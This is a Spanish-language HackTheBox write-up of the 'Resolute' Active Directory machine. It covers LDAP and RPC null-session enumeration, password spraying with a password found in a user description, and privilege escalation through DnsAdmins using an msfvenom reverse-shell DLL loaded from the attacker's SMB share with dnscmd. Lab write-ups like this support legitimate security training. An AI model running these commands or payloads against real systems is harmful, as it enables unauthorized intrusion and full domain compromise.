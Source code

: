 ```yaml
---
title: Resolute - Write Up (HTB) ❤
author: sha16
categories: [HackTheBox, Active Directory]
tags: [Abusing DNSAdmins Group, Active Directory, Null Session via RPC, Password Spraying, Password exposed via RPC, Windows]
---
```


Buenas a tod@s, el día de hoy les traigo un `write-up` de la máquina `Resolute` de `HackTheBox`.  

![Untitled](/assets/img/htb/machines/Resolute/Untitled.png)

Como en cada `write-up`, lo primero hacemos es lanzar un escaneo de puertos con `nmap` con el objetivo de identificar potenciales vías de ataque. 

Como podrán ver a continuación, se específica el parámetro `-sS` con el objetivo de que el escaneo sea vía `TCP SYNC`, lo que de cierto modo me permitirá agilizarlo, debido a que no hay `Three-Way-HandShake` como en `TCP`.

Lo otro es que se configura el `--min-rate` en `3000` con la idea de no enviar una cantidad menor a `3000` paquetes por segundo.

**Advertencia:** No aconsejo lanzar este escaneo en entornos productivos debido a que es ultra ruidoso y agresivo. En este caso lo estoy lanzando en un entorno controlado de `HackTheBox`.

```bash
nmap -v -sS --min-rate 3000 -n -Pn -p- 10.10.10.169 -oG tcp_ports.txt
```

![Untitled](/assets/img/htb/machines/Resolute/Untitled%201.png)

En el resultado del escaneo, se identifican varios servicios de interés, entre ellos: WinRPC, SMB, LDAP, WinRM y Kerberos. Sin embargo, ya con sólo ver al servicio `Kerberos`, podemos deducir que estamos ante un entorno de *Active Directory*. Por lo que ya podemos saber más o menos cómo enforcar nuestra estrategia de ataque y enumeración.

```bash
nmap -v -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49676,49677,49682,49714,49839 10.10.10.169 -oN port_scan.txt
```

![Untitled](/assets/img/htb/machines/Resolute/Untitled%202.png)

Uno de los primeros problemas de seguridad que identificamos al enumerar la máquina, es que te puedes autenticar sobre el servicio LDAP sin necesidad de una contraseña, pudiendo listar información sensible del dominio, tal como usuarios, propiedades de objetos, etc.

```bash
ldapsearch -H ldap://10.10.10.169 -w '' -x -b 'DC=megabank,DC=local'
```

![Untitled](/assets/img/htb/machines/Resolute/Untitled%203.png)

De la misma forma, esto ocurre con WinRPC, donde nos podemos autenticarnos con el *null session* y listar a todos los usuarios del dominio.

```bash
rpcclient -N -U '' megabank.local
```

![Untitled](/assets/img/htb/machines/Resolute/Untitled%204.png)

Al listar las descripciones de cada usuario, identificamos que en la del usuario `marko` hay una contraseña `Welcome123!`.

![Untitled](/assets/img/htb/machines/Resolute/Untitled%205.png)

Teniendo una contraseña potencialmente válida, realizamos un *Password Sprying* donde identificamos que esta la pertenece al usuario `melanie`.

![Untitled](/assets/img/htb/machines/Resolute/Untitled%206.png)

Al validar la credencial sobre el servicio WinRM, descubrimos que el usuario `melanie` forma parte del grupo `Remote Management Users`, por lo que podemos obtener acceso directo hacía una consola en el servidor con la herramienta `evil-winrm`. 

![Untitled](/assets/img/htb/machines/Resolute/Untitled%207.png)

Habiendo obtenido acceso al servidor, identificamos la carpeta `PSTranscripts`, la cual no forma parte del listado común de directorios en la raíz de los sistemas operativos Windows. 

![Untitled](/assets/img/htb/machines/Resolute/Untitled%208.png)

Al revisar dicho directorio, se identifica otro directorio dentro de este, el cual posee un archivo de texto.

![Untitled](/assets/img/htb/machines/Resolute/Untitled%209.png)

Al revisar dicho archivo, se identifican comandos de consola, los cuales muestran intentos de autenticación sobre un recurso de red, con la contraseña del usuario `ryan`.

![Untitled](/assets/img/htb/machines/Resolute/Untitled%2010.png)

Esta contraseña es validada con `crackmapexec`, herramienta con la cual validamos que el usuario `ryan` también pertenece al grupo `Remote Management Users`. 

![Untitled](/assets/img/htb/machines/Resolute/Untitled%2011.png)

Posterior a esto, antes de autenticarnos con el usuario `ryan`, lanzamos la herramienta `SharpHound.exe`, con el objetivo de listar potenciales vectores de ataque que puedan existir entre las relaciones establecidas entre los distintos objetos que componen al AD. 

```powershell
cmd /c SharpHound.exe --CollectionMethods All
```

![Untitled](/assets/img/htb/machines/Resolute/Untitled%2012.png)

Analizando el esquema de relación, detectamos que el usuario forma parte del grupo `Contractors`, el cual a su vez pertenece al grupo privilegiado, `DnsAdmins`. 

En este punto, hemos encontrado el vector de escalada de privilegios, debido a que el grupo `DnsAdmins` forma parte de los objetos críticos del directorio activo. Esto significa que, un usuario que forma parte de este, tiene la capacidad de controlar la totalidad del servicio, incluida las DLLs que se ejecutan en contexto privilegiado. 

![Untitled](/assets/img/htb/machines/Resolute/Untitled%2013.png)

Por lo tanto, dado que tenemos control total del servicio, podemos crear una DLL maliciosa con la herramienta `MSFvenom`, la cual está compilada para enviarnos una *reverse shell* a nuestra máquina, al puerto `443` en escucha. 

Es importante destacar que esta DLL, sobre la cual tenemos control, se ejecuta en un contexto de máximos privilegios en el servidor.

```powershell
msfvenom -a x64 -p windows/x64/shell_reverse_tcp -e x64/xor LHOST=10.10.17.210 LPORT=443 -f dll -o dnsadmin_priv.dll
```

![Untitled](/assets/img/htb/machines/Resolute/Untitled%2014.png)

Posterior a esto, con la herramienta `dnscmd.exe`, la cual es utilizada para administrar el DNS, añadimos la DLL como un *plugin* del servicio.

Cabe destacar que la DLL se encuentra servida en una carpeta compartida por SMB, en nuestro servidor atacante. 

```powershell
dnscmd.exe RESOLUTE /config /serverlevelplugindll \\10.10.17.210\smb\dnsadmin_priv.dll
```

![Untitled](/assets/img/htb/machines/Resolute/Untitled%2015.png)

Como se observó en la imagen anterior, la configuración es aplicada exitosamente.

En base a esto, se reinicia el servidor DNS, lo cual provoca que automáticamente se invoque y ejecute nuestra DLL, a través del servicio SMB. 

![Untitled](/assets/img/htb/machines/Resolute/Untitled%2016.png)

Habiéndose ejecutado, recibimos con éxito la *reverse shell* de `NT Authority\System`, en el puerto en escucha de nuestra máquina. De esta manera, logramos control total del *Domain Controller*.

![Untitled](/assets/img/htb/machines/Resolute/Untitled%2017.png)

### Referencias

- DNSAdmin to DC compromise in one line (by Shay Ber): [https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83](https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83)
- dnscmd (Microsoft Learn): [https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/dnscmd](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/dnscmd)
- DnsAdmins to DomainAdmin: [https://www.hackingarticles.in/windows-privilege-escalation-dnsadmins-to-domainadmin/](https://www.hackingarticles.in/windows-privilege-escalation-dnsadmins-to-domainadmin/)